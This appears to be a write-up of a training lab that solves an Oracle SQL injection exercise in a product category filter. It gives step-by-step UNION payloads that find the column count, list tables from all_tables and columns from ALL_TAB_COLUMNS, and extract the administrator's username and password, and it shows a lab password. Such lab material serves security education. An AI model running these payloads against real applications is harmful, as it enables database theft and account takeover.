

# Lab: SQL injection attack, listing the database contents on Oracle


## Lab Information

 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 


## Steps to Reproduce

### Intercept HTTP Request

- Using BurpSuite intercept HTTP request made in the `category` section.
- After interception forward the HTTP request to Repeater.

### Finding number of Columns

- Using the below payload we need to find the number of columns the original query is returning.

```sql
'+ORDER+BY+3--
```

- The above payload returns an **Internal Server Error** indicating there is a total of **2** columns.

### Finding String Compatible Column

- Now we need to find the column position which is string type compatible.
- Using the below payload we can do that.

```sql
'+UNION+SELECT+'a',+'b'+FROM+DUAL--
```

- The server returns `200` status code so both the 2 columns return string type value.

### Finding Table Names

- Using the below payload we can find database tables.

```sql
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
```

- The table we are interested in is the `USERS_TBDVJB`.

### Finding Column Details of `users` Table

- Using the below payload we can get the columns of the `USERS_TBDVJB` table.

```sql
'+UNION+SELECT+COLUMN_NAME,+NULL+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME='USERS_TBDVJB'--
```

- After using the above payload we will get the following columns :-
	- `EMAIL`
	- `PASSWORD_PXGHDZ`
	- `USERNAME_PGRAZF`


### Getting `administrator` credentials

- Using the below payload we can get the `administrator` credentials.

```sql
'+UNION+SELECT+USERNAME_PGRAZF,+PASSWORD_PXGHDZ+FROM+USERS_TBDVJB+WHERE+USERNAME_PGRAZF='administrator'--
```

- We got the following results after running the above payload :-
	- **username** = `administrator` and **password** = `yiaek7d2a6ge4ftqmyf6`


### Logging in

- Use the gathered credentials to login as `administrator`.



